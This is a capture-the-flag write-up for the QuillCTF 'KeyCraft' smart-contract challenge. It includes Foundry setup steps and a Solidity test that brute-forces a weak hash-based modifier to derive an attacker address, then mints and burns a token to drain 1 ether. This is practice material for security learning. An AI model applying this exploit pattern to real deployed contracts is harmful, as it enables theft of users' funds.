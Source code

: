 ## Capture the Flag Challenge `KeyCraft`

https://academy.quillaudits.com/challenges/quillctf-challenges/keycraft

## Prerequisites

This project uses `foundry` (https://book.getfoundry.sh/) which needs to be set up.

## Running the project

Run the following command to install dependencies:
```
forge install foundry-rs/forge-std
forge install openzeppelin/openzeppelin-contracts
```

Run the following command to compile the contracts:
```
forge build
```

Run the following command to run the tests:
```
forge test
```

## Solution

A brute force attack is used to figure out how to pass the modifier. The `canPassModifier` function returns `true` when a `randomValue` is found that can pass the modifier. Once we have a valid `randomValue`, the `getAttackerAddress` is used to figure out which account address should be used for the attack. Since only the `owner` and a `user` have minted a token so far, we know that we have minted tokenID 2. We can `burn` tokenID 2 to receive 1 ether.

```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.19;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";
import "openzeppelin-contracts/contracts/token/ERC721/ERC721.sol";
import "../src/KeyCraft.sol";

contract KC is Test {
    KeyCraft k;
    address owner;
    address user;
    address attacker;

    function toHexDigit(uint8 d) internal pure returns (bytes1) {
        if (0 <= d && d <= 9) {
            return bytes1(uint8(bytes1("0")) + d);
        } else if (10 <= uint8(d) && uint8(d) <= 15) {
            return bytes1(uint8(bytes1("a")) + d - 10);
        }
        revert();
    }

    function toHexString(uint a) public pure returns (string memory) {
        uint count = 0;
        uint b = a;
        while (b != 0) {
            count++;
            b /= 16;
        }
        bytes memory res = new bytes(count);
        for (uint i = 0; i < count; ++i) {
            b = a % 16;
            res[count - i - 1] = toHexDigit(uint8(b));
            a /= 16;
        }
        return string(res);
    }

    function canPassModifier(bytes memory b) public pure returns (bool) {
        bool w;
        uint a = uint160(uint256(keccak256(b)));

        a = a >> 108;
        a = a << 240;
        a = a >> 240;

        w = (a == 13057);
        return w;
    }

    function getAttackerAddress(bytes memory b) public pure returns (address) {
        uint a = uint160(uint256(keccak256(b)));
        return address(uint160(a));
    }

    function setUp() public {
        owner = makeAddr("owner");
        user = makeAddr("user");
        attacker = 0x2B82c473333012BC1a239bF59F93b9916cDf7486;

        vm.deal(user, 1 ether);

        vm.startPrank(owner);
        k = new KeyCraft("KeyCraft", "KC");
        vm.stopPrank();

        vm.startPrank(user);
        k.mint{value: 1 ether}(hex"dead");
        vm.stopPrank();
    }

    function testKeyCraft() public {
        vm.startPrank(attacker);

        //Solution
        for (uint i = 0; i < 300000; i++) {
            bytes memory randomValue = bytes(toHexString(i));
            if (canPassModifier(randomValue)) {

                console.log("AttackerAddress:");
                console.log(getAttackerAddress(randomValue));

                k.mint(randomValue);
                k.burn(2);
                break;
            }
        }

        vm.stopPrank();
        assertEq(attacker.balance, 1 ether);
    }
}
```

